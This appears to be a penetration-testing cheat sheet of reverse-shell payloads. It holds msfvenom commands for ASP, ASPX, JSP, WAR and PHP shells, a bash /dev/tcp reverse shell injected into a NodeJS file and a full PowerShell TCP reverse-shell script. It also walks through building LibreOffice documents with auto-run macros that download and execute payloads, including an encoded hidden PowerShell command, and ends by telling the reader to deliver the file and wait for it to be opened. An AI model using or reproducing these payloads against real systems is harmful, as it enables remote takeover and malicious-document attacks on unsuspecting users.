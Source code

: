 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### asp
Is it IIS 5.1?

5.1
```bash - kali
cp /usr/share/webshells/asp/cmd-asp-5.1.asp .
```

![[Pasted image 20220614101904.png]]

OR

```bash - kali
cp /usr/share/webshells/asp/cmdasp.asp .
```

32 bit Stageless:
```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```

32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```

64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```

64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```

#### aspx
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

32 bit Stageless:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```

32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```

64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```

64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```

#### jsp	
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw > reverse.jsp
```

#### jar / war
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f war > reverse.war
```

Sometimes the jar itself will not work, we need to extract and upload one of its files:

```bash - kali
jar -xvf reverse.war
```

Now find and upload the .jsp file

#### NodeJS
```
echo "require('child_process').exec('bash -c \\'bash -i >& /dev/tcp/$KALI/443 0>&1\\''" > /var/www/node/package.js
```

#### php
```bash - kali
msfvenom -p php/reverse_php LHOST=$KALI LPORT=443 -f raw > reverse.php
```


#### .odt LibreOffice

save the following as Shelly.ps1
```
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash - kali
sudo apt install libreoffice-writer
```

Open LibreOffice Writer application.  start a new file, go to Tools > Macros > Organize Macros > basic.

select "FILE NAME" > New.  Name the Module.

```
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell iwr http://$KALI/Shelly.ps1 -o %TEMP%/Shelly.ps1")
	Shell("cmd /c powershell -c %TEMP%/Shelly.ps1")
End Sub

```

**Save the document** as odt format.

We then need to make this macro run automatically when the document is opened.

Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK

**Save file**

```bash - kali
chmod 755 Shelly.ps1
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

upload odt file.

#### .hta - .ods LibreOffice

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o evil.hta
```

Open the hta file, copy the "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

```bash - kali
mousepad transform.py
```

Paste in place for the s variable.
```python
s = "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```

```bash - kali
sudo apt install libreoffice-calc
```

start a new LibreOffice Calc file, go to Tools > Macros > Organize Macros > basic.

select "FILE NAME" > New.  Name the Module.  Paste in your generated to look like this:

==NOTICE HOW THIS STARTS WITH "cmd.exe /C ......."==

Make sure your Dim and Str's line up!

---

Sub Exploit

   Dim Str As String

   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"

   Shell(Str)

End Sub

---

**Save the document**

We then need to make this macro run automatically when the document is opened.

Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK

Now just deliver the file and wait for it to be opened.
